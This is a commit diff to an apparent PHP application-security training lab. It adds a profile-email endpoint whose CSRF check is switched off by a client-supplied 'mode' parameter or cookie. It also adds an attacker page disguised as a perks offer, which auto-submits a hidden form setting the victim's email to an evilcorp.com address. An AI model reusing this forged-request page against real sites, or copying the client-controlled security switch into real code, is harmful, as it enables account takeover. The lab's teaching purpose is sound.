
After one commit to ramKarthik57/SecureWebLab, a PHP site: page /csrf_attack_demo.html in a window 1280 px wide. The commit adds this page. Shown: the whole page, without its empty margins (283-1006 px from the left). Run offline with PHP 8.4, Linux system fonts and the light colour scheme.

Commit message:
feat(csrf): add standalone auto-submitting attacker page (csrf_attack_demo.html) for profile email update demo

```diff
--- a/api.php
+++ b/api.php
@@ -359,7 +359,59 @@ if ($action === 'withdraw_app') {
 }
 
 // --------------------------------------------------------------------
-// 4. THE 5 CORE APPSEC TESTING LABS (AJAX)
+// 3b. UPDATE USER PROFILE EMAIL (Real-world CSRF Target Endpoint)
+// --------------------------------------------------------------------
+if ($action === 'update_email') {
+    if (!isset($_SESSION['user'])) {
+        echo json_encode(['success' => false, 'error' => 'Authentication required. Please log in first.']);
+        exit;
+    }
+
+    $new_email = trim($_POST['email'] ?? '');
+    if (empty($new_email) || !filter_var($new_email, FILTER_VALIDATE_EMAIL)) {
+        echo json_encode(['success' => false, 'error' => 'Please provide a valid email address.']);
+        exit;
+    }
+
+    $mode = $_POST['mode'] ?? $_GET['mode'] ?? ($_COOKIE['lab_mode'] ?? 'vulnerable');
+    $is_vuln = ($mode === 'vulnerable');
+    $token = $_POST['csrf_token'] ?? null;
+
+    if (!$is_vuln) {
+        // 🟢 SECURE MODE: Verify session-bound cryptographic anti-CSRF token
+        if (!$token || !verify_csrf_token($token)) {
+            http_response_code(403);
+            echo json_encode([
+                'success' => false,
+                'status_type' => 'success',
+                'error' => 'HTTP 403 Forbidden: CSRF token validation failed! Cross-origin state modification blocked.',
+                'mode' => 'secure'
+            ]);
+            exit;
+        }
+    }
+
+    // Update authenticated user's email in session and database
+    $user_id = intval($_SESSION['user']['id']);
+    $stmt = mysqli_prepare($conn, "UPDATE users SET email = ? WHERE id = ?");
+    if ($stmt) {
+        mysqli_stmt_bind_param($stmt, "si", $new_email, $user_id);
+        mysqli_stmt_execute($stmt);
+    }
+    $_SESSION['user']['email'] = $new_email;
+
+    echo json_encode([
+        'success' => true,
+        'mode' => $is_vuln ? 'vulnerable' : 'secure',
+        'message' => 'Profile email successfully updated to: ' . $new_email,
+        'new_email' => $new_email,
+        'csrf_protected' => !$is_vuln
+    ]);
+    exit;
+}
+
+// --------------------------------------------------------------------
+// 4. THE CORE APPSEC TESTING LABS (AJAX)
 // --------------------------------------------------------------------
 if ($action === 'test_lab') {
     $vuln_id = intval($_POST['vuln_id'] ?? 1);
--- /dev/null
+++ b/csrf_attack_demo.html
@@ -0,0 +1,137 @@
+<!DOCTYPE html>
+<html lang="en">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0">
+    <title>Claim Exclusive Developer Perks — Academic Demonstration</title>
+    <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/css/bootstrap.min.css" rel="stylesheet">
+    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap-icons@1.11.3/font/bootstrap-icons.min.css">
+    <style>
+        body {
+            background: linear-gradient(135deg, #0F172A 0%, #1E293B 100%);
+            color: #E2E8F0;
+            font-family: -apple-system, BlinkMacSystemFont, "Segoe UI", Roboto, sans-serif;
+            min-height: 100vh;
+            display: flex;
+            align-items: center;
+            justify-content: center;
+            padding: 20px;
+        }
+        .exploit-card {
+            background: #ffffff;
+            color: #1E293B;
+            border-radius: 16px;
+            max-width: 650px;
+            width: 100%;
+            box-shadow: 0 25px 50px -12px rgba(0, 0, 0, 0.4);
+            overflow: hidden;
+        }
+        .header-banner {
+            background: #DC2626;
+            color: white;
+            padding: 18px 24px;
+        }
+        .code-box {
+            background: #0F172A;
+            color: #38BDF8;
+            font-family: 'Consolas', monospace;
+            font-size: 13px;
+            padding: 14px;
+            border-radius: 8px;
+            margin: 12px 0;
+            word-break: break-all;
+        }
+        .status-badge {
+            font-size: 11px;
+            font-weight: 700;
+            text-transform: uppercase;
+            letter-spacing: 0.5px;
+            padding: 4px 10px;
+            border-radius: 20px;
+        }
+    </style>
+</head>
+<body>
+
+<div class="exploit-card">
+    <div class="header-banner d-flex justify-content-between align-items-center">
+        <div>
+            <h5 class="mb-0 fw-bold"><i class="bi bi-shield-slash-fill me-2"></i>CSRF Attack Demonstration (CWE-352)</h5>
+            <small class="opacity-75">Cross-Origin Forged Profile Email Update Exploit</small>
+        </div>
+        <span class="status-badge bg-white text-danger">LIVE EXPLOIT</span>
+    </div>
+
+    <div class="p-4">
+        <div class="alert alert-warning border-0 small d-flex align-items-start gap-2">
+            <i class="bi bi-exclamation-triangle-fill fs-5 text-warning flex-shrink-0"></i>
+            <div>
+                <strong>Academic AppSec Scenario:</strong> You are currently authenticated in <em>SecureJobLab</em>. Visiting this external page causes an unauthorized cross-origin <code>POST</code> to execute against your logged-in portal session, modifying your profile email to an attacker-controlled address.
+            </div>
+        </div>
+
+        <h6 class="fw-bold text-dark mt-3 mb-2"><i class="bi bi-arrow-repeat text-primary me-2"></i>Forged Request Parameters:</h6>
+        <div class="code-box">
+POST http://localhost/SecureJobLab/api.php<br>
+action=update_email<br>
+email=attacker-hijacked@evilcorp.com<br>
+mode=vulnerable
+        </div>
+
+        <div class="my-3 p-3 bg-light rounded-3 border">
+            <div class="d-flex justify-content-between align-items-center mb-2">
+                <span class="small fw-bold text-muted">Exploit Trigger Mode:</span>
+                <span id="exploitTimer" class="badge bg-secondary">Auto-submitting in 2s...</span>
+            </div>
+            <div class="d-flex gap-2">
+                <button type="button" class="btn btn-danger btn-sm w-100 fw-bold" onclick="submitForgedRequest('vulnerable')">
+                    <i class="bi bi-play-circle-fill me-1"></i> Trigger Vulnerable Exploit
+                </button>
+                <button type="button" class="btn btn-success btn-sm w-100 fw-bold" onclick="submitForgedRequest('secure')">
+                    <i class="bi bi-shield-check me-1"></i> Test Secure Defense (Mitigated)
+                </button>
+            </div>
+        </div>
+
+        <!-- Hidden Form used for traditional Cross-Origin POST demonstration -->
+        <form id="csrfForm" action="http://localhost/SecureJobLab/api.php" method="POST" target="csrf_result_frame" style="display:none;">
+            <input type="hidden" name="action" value="update_email">
+            <input type="hidden" name="email" value="attacker-hijacked@evilcorp.com">
+            <input type="hidden" name="mode" id="formMode" value="vulnerable">
+        </form>
+
+        <h6 class="fw-bold text-dark mt-4 mb-2"><i class="bi bi-terminal text-secondary me-2"></i>Target Server Response:</h6>
+        <iframe name="csrf_result_frame" id="csrfResultFrame" style="width: 100%; height: 110px; border: 1px solid #CBD5E1; border-radius: 8px; background: #F8FAFC;"></iframe>
+
+        <div class="mt-3 text-center">
+            <a href="http://localhost/SecureJobLab/index.php?tab=applications" target="_blank" class="btn btn-outline-primary btn-sm fw-bold">
+                <i class="bi bi-box-arrow-up-right me-1"></i> Verify Profile in SecureJobLab Portal
+            </a>
+        </div>
+    </div>
+</div>
+
+<script>
+    let timerCountdown = 2;
+    const timerEl = document.getElementById('exploitTimer');
+
+    const interval = setInterval(() => {
+        timerCountdown--;
+        if (timerCountdown > 0) {
+            timerEl.textContent = `Auto-submitting in ${timerCountdown}s...`;
+        } else {
+            clearInterval(interval);
+            timerEl.textContent = 'Auto-submitted via Victim Browser!';
+            timerEl.className = 'badge bg-danger';
+            submitForgedRequest('vulnerable');
+        }
+    }, 1000);
+
+    function submitForgedRequest(mode) {
+        document.getElementById('formMode').value = mode;
+        document.getElementById('csrfForm').submit();
+    }
+</script>
+
+</body>
+</html>
```
Also changed, not shown: index.php (+6 -1 lines).
